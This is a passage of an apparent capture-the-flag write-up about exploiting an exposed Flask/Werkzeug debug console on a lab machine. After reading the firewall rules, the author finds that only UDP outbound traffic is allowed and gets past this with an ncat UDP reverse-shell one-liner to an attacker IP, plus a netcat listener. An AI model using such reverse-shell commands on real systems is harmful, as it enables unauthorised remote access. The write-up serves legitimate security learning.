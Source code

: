 - Port 80 runs  `flask` application named `Shorty` as in a `URL shortner`.

## `Shorty` | Flask Application running at `127.0.0.1:80`

- A directory bruteforce to this app reveals an endpoint `/console` . This endpoint is an interface to python console.  

## `UDP` Reverse Shell

- This python console does not have any limitations, any command can be executed including system commands as well.
- This makes this console as a dangerous security flaw.
- `Whoami`
```python
import os
os.getlogin()
# 'werkzeug'
```

- Trying to get a `TCP` reverse shell fails.
- After checking in-built firewall rules, it shows all `TCP Outbound and Ibound (except port 22 and 3128)`connections are *dropped*.
```python
with open('/etc/iptables/rules.v4', 'r') as f: print(f.read())
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017
```
- Only `UDP` outbound connections are allowed. This means I could go for a `UDP` reverse shell, or a `UDP` bind shell.
- From `revshells.com` , 2 options are available for a `UDP Reverse Shell` , the `Bash UDP` does not work for some reason.
- The `Ncat UDP` works. : 
```python
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u 10.10.14.25 9001 >/tmp/f").read()
```

Setting up Listener : 
```shell
$ nc -lnvp 9001 -u
```

and I get a shell as `Werkzeug`.
